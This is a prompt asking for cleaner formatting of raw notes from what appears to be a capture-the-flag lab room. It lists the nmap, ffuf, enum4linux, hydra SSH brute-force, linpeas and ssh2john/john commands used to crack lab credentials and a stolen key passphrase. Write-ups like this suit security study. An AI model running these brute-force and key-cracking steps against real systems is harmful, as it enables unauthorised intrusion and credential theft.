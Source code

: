 In the same kind of format write well formatted notes for the following

Raw Notes:
Use Nmap to get all the running services on the machines
nmap -A 10.10.57.186 -T4

got HTTP, SSH and SMB service running

use ffuf to get dir busting
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.57.186/FUZZ

found /development dir where we find some notes and in that some of the passwrds are weak

we dont know usernames so we can try enum4linux
enum4linux 10.10.57.186 -e
we got two usernames jan and kay

lets brute force username and passwords using hydra
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.57.186
got something jan:armando

log in to the machine using the creds that we found
ssh jan@10.10.57.186
jan@10.10.57.186 password:armando

we can cd and stuff we find the directory of kay and it has pass.bak but permission is denied

we can use linpeas.sh to get the points that can be used for previlage escalation

as we know ssh password we can use scp
scp /home/kali/Downloads/linpeas.sh jan@10.10.57.186:/dev/shm

then in the machine shell
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linlog.txt

we saw that the private RSA key of kay is exposed and can be used to ssh as kay
stored it on our local machine
ssh -i kay_key.txt kay@10.10.57.186

but it is password protected so we must use johntherippers tool ssh2john this will first convert the rsa to format that john can understand
/bin/ssh2john kay_key.txt > for_john.txt

now use john with rockyou wordlist
john for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt

boom we got the paraphrase for rsa key
beeswax

now ssh with the rsa file
ssh -i kay_key.txt kay@10.10.57.186
Enter passphrase for key 'kay_key.txt':beeswax

bingo we got in as kay

now cat pass.bak we get the final password

BOOM room solved
